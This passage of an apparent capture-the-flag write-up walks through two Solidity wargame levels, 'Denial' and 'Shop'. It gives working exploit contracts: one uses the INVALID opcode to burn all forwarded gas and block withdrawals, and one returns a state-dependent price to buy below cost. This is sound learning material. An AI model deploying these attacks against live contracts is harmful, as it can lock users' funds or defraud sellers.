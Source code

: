 ```
partner.call{value:amountToSend}("");
```

will always continue execution even if the receiving contract reverts. This is true... if the
receiving contract reverts then that doesn't cause the error to propagate. BUT, the `Denial`
contract doesn't specify how much gas to forward. By default `call` forwards ALL remaining
gas. And unlike the `REVERT` opcode, which will refund gas to the caller, the `INVALID`
opcode will not.

We can create a malicious contract that executes the `INVALID` opcode to take all of `Denial`'s
gas. This will deny the owner from withdrawing funds.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

contract DenialExploit {
    receive() external payable {
        assembly {
            invalid()
        }
    }
}
```

We could have also wrote an exploit contract with an infinite loop that exhausted all the
gas but I think the `INVALID` opcode is more elegant :P.

And that clears the level!

# Shop
As a view function `price` cannot modify any state. But we can read the state of other contracts!
And if the state of another contract changes between successive calls then we can use that
information to change the value returned by the view function. We can alter the price returned
based on Shop's `isSold` variable. When `isSold` is `false` we can return 100 for the price.
When it's `true` we can return 0:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

import "./Shop.sol";

contract ShopExploit {
    address private immutable shop;
    constructor(address _shop) {
        shop = _shop;
    }

    function price() external view returns (uint) {
        if (Shop(shop).isSold())
            return 0;
        return 100;
    }

    function exploit() external {
        Shop(shop).buy();
    }
}
```

